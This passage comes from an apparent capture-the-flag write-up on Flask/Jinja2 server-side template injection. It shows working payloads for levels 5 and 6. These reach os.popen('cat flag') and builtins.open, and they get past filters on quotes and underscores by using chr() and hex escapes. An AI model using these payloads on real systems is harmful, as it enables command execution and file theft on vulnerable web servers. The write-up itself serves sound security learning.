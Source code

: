```python3
{{ url_for.__globals__.os.popen('cat flag').read() }}
```

### Level 5
* For this level, it seems like single and double quotes are blocked

* At first I wanted to use chr() to convert digits into an ascii representation of the string, but flask doesn't have a built-in chr() function
	* Fortunately, we can still access python's chr() function

* To figure out the integer representation of 'flag', i used `[ord(i) for i in 'flag']`, which gave me the numbers `[102, 108, 97, 103]`


* Here's the payload I used:

```python3
{{ url_for.__globals__.__builtins__.open(url_for.__globals__.__builtins__.chr(102) + url_for.__globals__.__builtins__.chr(108) + url_for.__globals__.__builtins__.chr(97) + url_for.__globals__.__builtins__.chr(103)).read()}}
```
#### Breaking down the payload
1. To get the chr() function, we do the same thing as before, but access the [`__builtins__` module](https://docs.python.org/3/library/builtins.html), which has many useful functions, like `open()`,  `chr()`, and the other functions typically accessible in python
	1. To get a character based on any ordinal value, we can write `url_for.__globals__.__builtins__.chr(NUM)`
2. Thus, to get the whole `flag` string, we just append all of those together
3. Then, we use `url_for.__globals__.os.open()` and pass in the flag string to read the flag file


### Level 6
* It looks like in this level, we can't use any underscores
* Luckily, flask processes hex characters, so we can replace all our blocked characters with hex bytes
	* In this case, an underscore is 0x5f

* Here is the original payload along with the underscores converted to hex:
```python3

{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}

{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[140]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['sys'].modules.os.popen('cat flag').read() }}


```

### Level 7
* This level doesn't allow dots
* We can do somethin similar to what we did in the last one and use give all the properties as strings:
